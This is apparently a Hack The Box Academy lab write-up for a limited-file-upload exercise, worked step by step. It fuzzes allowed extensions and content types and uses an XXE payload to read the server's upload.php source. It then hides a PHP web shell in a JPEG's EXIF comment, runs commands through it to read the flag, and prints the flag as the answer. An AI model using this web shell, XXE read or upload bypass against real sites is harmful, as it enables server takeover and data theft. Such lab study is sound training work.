




# Section 08: Limited File Uploads

Module: 21. File Upload Attacks

---

## Questions & Answers

### 1. Try to exploit the upload form to read the flag found at the root directory "/".

Context:
- The upload functionality is in `/contact`, first just to confirmed the framework used in website go to `/index.php` => it is a PHP web.
- The form on the client side what we see only allow `.jpg,.jpeg,.png`:
```html
<form action="/contact/submit.php" method="get">
    <div class="form-group">
        <label for="name">Name</label>
        <input class="form-control" id="name" type="text" name="Name" required>
    </div>
    <div class="form-group">
        <label for="email">Email</label>
        <input class="form-control" id="email" type="email" name="Email" required>
    </div>
    <div class="form-group">
        <label for="message">Message</label>
        <textarea class="form-control" id="message" name="Message" required></textarea>
    </div>
    <div>
        <p>Attach a screenshot</p>
        <div class="form-group">
        <div class="input-group">
            <div class="custom-file">
            <input name="uploadFile" id="uploadFile" type="file" class="custom-file-input" id="inputGroupFile02" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
            <label id="inputGroupFile01" class="custom-file-label" for="inputGroupFile02" aria-describeby="inputGroupFileAddon02">Select Image</label>
            </div>
            <button id="upload"><i class="fa fa-upload"></i></button>
        </div>
        </div>
        <p id="upload_message"></p>
    </div>
    <input class="btn btn-primary" type="submit" value="Submit">
</form>
```
- Catch the request, the form send the request to `/contact/submit.php`:
```bash
GET /contact/submit.php?Name=test&Email=test%40gmail.com&Message=test&uploadFile=OIP-850415560.jpg HTTP/1.1
Host: 154.57.164.82:31508
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://154.57.164.82:31508/contact/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
- The uploaded file isn't go with this request, it goes with `/contact/upload.php`, where we click the upload button, the logic behind:
```php
function checkFile(File) {
  var file = File.files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#upload_message').text("Only images are allowed");
    File.form.reset();
  } else {
    $("#inputGroupFile01").text(filename);
  }
}

$(document).ready(function () {
  $("#upload").click(function (event) {
    event.preventDefault();
    var fd = new FormData();
    var files = $('#uploadFile')[0].files[0];
    fd.append('uploadFile', files);

    if (!files) {
      $('#upload_message').text("Please select a file");
    } else {
      $.ajax({
        url: '/contact/upload.php',
        type: 'post',
        data: fd,
        contentType: false,
        processData: false,
        success: function (response) {
          if (response.trim() != '') {
            $("#upload_message").html(response);
          } else {
            window.location.reload();
          }
        },
      });
    }
  });
});
```
- Catch the request, and first emunerating the extensions with this wordlist:
```
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtml
.phar
.inc
```
- The response with the length `227` is the allowed extensions, the related PHP extensions allowed:

- Next emunerating the allowed `Content-Type`:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
- All accepted `Content-Type`:

- Leverage the XXE vulnerability to read the `upload.php` source:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg> 
```

- Base64 decode the source:
```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```
- Here it takes me a while to know how to upload the malicious file, and I tried the exiftool way:
```bash
┌─[eu-academy-2]─[10.10.15.146]─[htb-ac-2162140@htb-yhjzzj0sh3-htb-cloud-com]─[~/Downloads]
└──╼ [★]$ ls
OIP-3928268718.jpg  OIP-850415560.jpg
┌─[eu-academy-2]─[10.10.15.146]─[htb-ac-2162140@htb-yhjzzj0sh3-htb-cloud-com]─[~/Downloads]
└──╼ [★]$ exiftool -Comment='<?php system($_GET["cmd"]); ?>' OIP-3928268718.jpg -o shell.phar.jpg
    1 image files created
```
- `OIP-3928268718.jpg` is just a normal `.jpg` file I just inject the PHP web shell into it:
```bash
┌─[eu-academy-2]─[10.10.15.146]─[htb-ac-2162140@htb-yhjzzj0sh3-htb-cloud-com]─[~/Downloads]
└──╼ [★]$ exiftool shell.phar.jpg 
ExifTool Version Number         : 13.25
File Name                       : shell.phar.jpg
Directory                       : .
File Size                       : 24 kB
File Modification Date/Time     : 2026:09:12 06:23:46-04:00
File Access Date/Time           : 2026:09:12 06:24:04-04:00
File Inode Change Date/Time     : 2026:09:12 06:23:46-04:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 0
Y Resolution                    : 0
Exif Byte Order                 : Big-endian (Motorola, MM)
Comment                         : <?php system($_GET["cmd"]); ?>
Image Width                     : 474
Image Height                    : 266
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 474x266
Megapixels                      : 0.126
```
- Upload the file through `/contact/upload.php` and get access to it by calculate the location:
```bash
┌─[eu-academy-2]─[10.10.15.146]─[htb-ac-2162140@htb-yhjzzj0sh3-htb-cloud-com]─[~/Downloads]
└──╼ [★]$ php -r "echo date('ymd');"
260912
```
- The file should be at `/contact/user_feedback_submissions/260912_shell.phar.jpg`, get the flag:
```bash
http://154.57.164.82:31508/contact/user_feedback_submissions/260912_shell.phar.jpg?cmd=ls%20/ => bin boot dev etc flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
http://154.57.164.82:31508/contact/user_feedback_submissions/260912_shell.phar.jpg?cmd=cat%20/flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt => HTB{m4573r1ng_upl04d_3xpl0174710n}
```


**Answer:** `HTB{m4573r1ng_upl04d_3xpl0174710n}`

---

[Back to Module Index](./README.md)
